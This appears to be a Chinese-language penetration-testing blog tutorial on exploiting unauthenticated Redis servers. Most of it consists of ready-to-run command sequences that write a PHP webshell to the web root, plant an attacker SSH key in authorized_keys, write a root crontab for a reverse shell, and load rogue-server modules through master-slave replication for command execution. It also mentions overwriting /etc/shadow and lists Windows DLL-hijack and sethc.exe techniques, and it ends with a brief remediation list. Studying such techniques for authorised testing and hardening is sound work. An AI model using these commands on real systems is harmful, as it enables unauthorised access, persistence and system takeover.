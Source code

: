 
# [](#redis-%E5%9C%A8%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E5%B8%B8%E8%A7%81%E7%9A%84%E5%88%A9%E7%94%A8%E6%96%B9%E5%BC%8F)Redis 在渗透测试中常见的利用方式

> 本文主要以 redis 未授权或已知 redis 口令为前提进行漏洞利用

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525095914.png-water_print](assets/1699409268-800973274304f4af7e1a76ce381ddb09 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525095914.png-water_print")

## [](#1-%E5%86%99%E5%85%A5-webshell)1 写入 webshell

条件：

-   已知 web 目录绝对路径
-   拥有该目录下的可写权限

查看所有键，创建新键，键值为 webshell，这里以写入 phpinfo 进行一个演示。

因为创建新键赋键值会把原来的键值覆盖，所以需要在赋值的时候需要查看所有的键，然后选择一个没有的键创建赋值。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>keys *<br>set x "\n\n<?php pnpinfo();?>\n"<br>get x<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525100009.png-water_print](assets/1699409268-7795843d6bf34ee1243fb2ffbe84f220 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525100009.png-water_print")

查看 redis 数据库配置信息，因为我们写 Webshell 会修改 `dir` 和 `dbfilename`，所以这里查看配置信息主要记下原来的值，好在写入后修改回来。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>config get *<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525100101.png-water_print](assets/1699409268-844a3924230d5ff56b050abbedda7fc0 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525100101.png-water_print")

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525100117.png-water_print](assets/1699409268-fa07510f08dfc6fd627a82327572de6f.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525100117.png-water_print")

设置 webshell 输出目录和文件名，然后写入 Webshell。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>config set dir /var/www    # 设置文件写入目录<br>config set dbfilename 1.php   # 设置写入文件名<br>save # 保存<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525101443.png-water_print](assets/1699409268-1dd3131b03f639e3e58c3a78d625c67c.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525101443.png-water_print")

最后，再还原数据库配置。

## [](#2-%E5%86%99%E5%85%A5-ssh-%E5%85%AC%E9%92%A5)2 写入 ssh 公钥

条件：

-   已知启动服务的用户
-   拥有 .ssh 目录
-   允许使用基于密钥认证的方式登陆

### [](#21-%E7%94%9F%E6%88%90%E5%85%AC%E7%A7%81%E9%92%A5%E5%AF%B9)2.1 生成公私钥对

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ssh-keygen -t rsa    # 生成公钥和私钥<br>``` |

### [](#22-%E5%88%A9%E7%94%A8-redis-config-%E5%86%99%E6%96%87%E4%BB%B6)2.2 利用 redis config 写文件

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```bash<br>set x "\n\n公钥内容\n"<br>config set dir /home/user/.ssh<br>config set dbfilename authorized_keys<br>save<br>``` |

### [](#23-%E5%88%A9%E7%94%A8%E5%85%AC%E7%A7%81%E9%92%A5%E5%AF%B9%E7%99%BB%E5%BD%95)2.3 利用公私钥对登录

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ssh -i id_rsa user@ip<br>``` |

## [](#3-%E5%86%99%E5%AE%9A%E6%97%B6%E4%BB%BB%E5%8A%A1%E5%8F%8D%E5%BC%B9-shell)3 写定时任务反弹 shell

条件：

-   拥有计划任务目录写权限
-   目标启动计划服务

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```bash<br>keys *    查看所有键<br>set x "\n\n计划任务内容\n\n"    <br>config get *    <br>config set dir /var/spool/cron    <br>config set dbfilename root    <br>save    保存，完成文件写入<br>del x    删除创建的x键<br>``` |

## [](#4-%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6)4 主从复制

### [](#41-%E5%8A%A0%E8%BD%BD%E6%89%A9%E5%B1%95%E6%A8%A1%E5%9D%97%E6%89%A7%E8%A1%8C%E7%B3%BB%E7%BB%9F%E5%91%BD%E4%BB%A4)4.1 加载扩展模块执行系统命令

具体的原理在之前漏洞复现的文章中已经解释过。

脚本地址：[https://github.com/Dliv3/redis-rogue-server](https://github.com/Dliv3/redis-rogue-server)

主动连接模式：

参数说明

-   `--rpasswd` 如果目标 Redis 服务开启了认证功能，可以通过该选项指定密码
-   `--rhost` 目标 redis 服务 IP
-   `--rport` 目标 redis 服务端口，默认为 6379
-   `--lhost` vps 的外网 IP 地址
-   `--lport` vps 监控的端口，默认为 21000

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>python3 redis-rogue-server.py --rhost <target address> --rport <target port> --lhost <vps address> --lport <vps port><br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525104637.png-water_print](assets/1699409268-e4cb3b72ba47d7d07c2f852cd68d2a0f.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525104637.png-water_print")

被动连接模式：

适用于目标 Redis 服务处于内网的情况

-   通过 SSRF 攻击 Redis
-   内网 Redis 未授权访问/已知 Redis 口令，Redis 需要反向连接 redis rogue server

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>python3 redis-rogue-server.py --server-only<br>``` |

### [](#42-%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6%E5%86%99%E5%85%A5%E7%BA%AF%E5%87%80%E6%96%87%E4%BB%B6)4.2 主从复制写入纯净文件

在 linux 下，可以利用 SYNC 主从同步，来直接写入无杂质的文件，脚本如下：

[https://github.com/r35tart/RedisWriteFile](https://github.com/r35tart/RedisWriteFile)

此脚本是通过 `Redis` 主从写出无损文件，可用于 `Windows` 平台下写出无损的 `EXE`、`DLL`、 `LNK` 和 `Linux` 下的 `SO` 等二进制文件

也可以用无杂质覆写 `Linux` 中的 `/etc/shadow`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>python3 RedisWriteFile.py --rhost 172.17.0.2 --rport 6379 --lhost 172.17.0.1 --lport 4444 --rpath "/var/www" --rfile "test.php" --lfile "./phpinfo.php"<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525104700.png-water_print](assets/1699409268-fd5e9eac0c8cfe82b1c6638a50cd2f34.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525104700.png-water_print")

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525104744.png-water_print](assets/1699409268-8d87e395a92e9e3226b794201ba7f8d3.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525104744.png-water_print")

上述方法主要是针对 linux，当 windows 上未开启 web 服务时，该如何 getshell？

下面介绍下 redis 在 windows 下的常见打法：

1.  系统 `DLL` 劫持（目标重启或注销）
2.  针对特定软件的 `DLL` 劫持（目标一次点击）
3.  覆写目标的快捷方式（目标一次点击）
4.  覆写特定软件的配置文件达到提权目的（目标无需点击或一次点击）
5.  覆写 `sethc.exe` 等文件（攻击方一次触发）

参考：[http://r3start.net/index.php/2020/05/25/717](http://r3start.net/index.php/2020/05/25/717)

## [](#5-%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D)5 漏洞修复

-   设置密码认证
-   尽量以低权限来运行 Redis 服务
-   限制登录 IP

